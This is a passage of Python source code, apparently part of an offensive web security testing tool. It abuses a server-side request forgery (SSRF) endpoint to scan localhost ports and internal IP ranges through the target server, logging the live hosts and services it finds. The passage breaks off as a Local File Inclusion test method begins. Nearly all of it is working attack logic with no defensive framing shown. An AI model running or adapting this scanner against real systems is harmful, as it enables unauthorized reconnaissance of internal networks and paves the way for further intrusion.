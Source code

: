 ```python
                payload = {ssrf_endpoint['endpoint']['param']: target_url}
                
                if 'trigger_param' in ssrf_endpoint['endpoint']:
                    payload[ssrf_endpoint['endpoint']['trigger_param']] = True
                
                response = self.session.request(
                    ssrf_endpoint['endpoint']['method'],
                    f"{self.base_url}{ssrf_endpoint['endpoint']['url']}",
                    json=payload,
                    timeout=5
                )
                
                if response.status_code == 200 and len(response.text) > 10:
                    results.append({
                        'target': target_url,
                        'port': port,
                        'response_size': len(response.text),
                        'service_detected': True,
                        'response_snippet': response.text[:100]
                    })
                    print(f"    ✓ Service found on localhost:{port}")
                    
            except Exception as e:
                continue
        
        # Scan internal network ranges (limited scan)
        print("  Scanning internal network ranges...")
        for ip_range in internal_ranges[:2]:  # Limit to first 2 ranges
            for host_num in range(1, 11):  # Scan first 10 hosts
                target_ip = ip_range.format(host_num)
                target_url = f"http://{target_ip}"
                
                try:
                    payload = {ssrf_endpoint['endpoint']['param']: target_url}
                    
                    if 'trigger_param' in ssrf_endpoint['endpoint']:
                        payload[ssrf_endpoint['endpoint']['trigger_param']] = True
                    
                    response = self.session.request(
                        ssrf_endpoint['endpoint']['method'],
                        f"{self.base_url}{ssrf_endpoint['endpoint']['url']}",
                        json=payload,
                        timeout=3
                    )
                    
                    if response.status_code == 200 and len(response.text) > 10:
                        results.append({
                            'target': target_url,
                            'ip': target_ip,
                            'response_size': len(response.text),
                            'host_alive': True
                        })
                        print(f"    ✓ Host alive: {target_ip}")
                        
                except Exception as e:
                    continue
        
        return results
    
    def test_lfi_vulnerabilities(self):
        """Test for Local File Inclusion vulnerabilities"""
        print("\n[+] Testing Local File Inclusion vulnerabilities...")
        
```